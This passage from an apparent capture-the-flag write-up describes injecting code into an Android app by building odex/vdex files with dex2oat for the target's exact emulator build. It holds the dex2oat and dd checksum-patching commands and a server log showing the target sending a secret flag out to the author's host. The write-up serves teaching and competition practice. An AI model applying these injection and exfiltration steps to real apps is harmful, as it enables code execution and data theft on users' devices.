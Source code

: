 It worked locally. But now we have to make it work remotely. odex/vdex files aren't portable, they are optimized for a specific device framework/architecture. We will have to find more information on our remote device. Luckly it sends it to us in the user-agent in the requests:
```
User-Agent: Mozilla/5.0 (Linux; Android 10; Android SDK built for x86_64 Build/QSR1.200403.001; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/74.0.3729.185 Mobile Safari/537.36
```

So it is Android 10 running on x86_64, on the emulator. I tried to build odex/vdex for x86_x64:
```sh
mkdir /data/user/0/com.example.app/app_ads/oat/x86_64
/system/bin/dex2oat --dex-file=my-app.apk  --instruction-set=x86_64 --oat-file=/data/user/0/com.example.app/app_ads/oat/x86_64/ads-impl.odex
printf '\xDE\x9E\x32\x57' | dd of=/data/user/0/com.example.app/app_ads/oat/x86_64/ads-impl.vdex bs=1 seek=28 count=4 conv=notrunc 
```
And it still didn't work. My user agent was:
```
User-Agent: Mozilla/5.0 (Linux; Android 10; Android SDK built for x86_64 Build/QPP6.190730.005.B1; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/74.0.3729.186 Mobile Safari/537.36
```

So I wanted to find that specific "QSR1.200403.001" build. I assumed that it is one of the emulators that google offers. Since it wasn't the target that I selected ("Android 10.0" for x86_64), I tried another one ("Android 10.0 (Google APIs)" for x86_64), and that was it! It had the same build number.

So I buit the odex/vdex files on it, and sent it to the target:
```
35.205.32.208 - - [23/Aug/2020 14:59:51] "GET /password.png?CTF{something_something_pun_about_polyglots} HTTP/1.1" 404 -
```

Success! I got the flag. But apparently I had to do something with polyglots with the apk.... So it wasn't the intended solution. But a flag is a flag.